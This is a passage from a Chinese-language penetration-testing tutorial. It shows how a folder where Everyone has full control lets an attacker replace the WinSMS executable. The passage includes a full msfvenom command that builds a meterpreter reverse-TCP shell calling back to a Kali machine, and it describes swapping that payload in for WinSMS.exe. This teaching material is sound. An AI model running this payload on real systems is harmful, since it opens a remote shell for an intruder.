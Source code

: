 1.  正如我们所看到的，有`Everyone`访问权限，并且拥有完全权限。这是一个严重的失误，这意味着任何有权访问系统的人都可以修改该文件夹中的任何文件。攻击者几乎可以做任何事情。攻击者可以将他的恶意文件与 WinSMS 的可执行文件放在一起，甚至替换 DLL 文件并执行他的命令。出于演示目的，我们将放置一个我们将从 Kali 创建的反向 shell，并等待连接。让我们开始。在您的 Kali 终端中，输入以下内容创建一个反向`exe` shell：

```
msfvenom -p windows/meterpreter/reverse_tcp       LHOST=192.168.157.151 LPORT=443 -f exe > WinSMS.exe

```

输出将如下截图所示：

![如何做到...](img/image_09_024.jpg)

1.  我们下载这个可执行文件，并将其替换为安装软件的文件夹中的`WinSMS.exe`文件：![如何做到...](img/image_09_025.jpg)
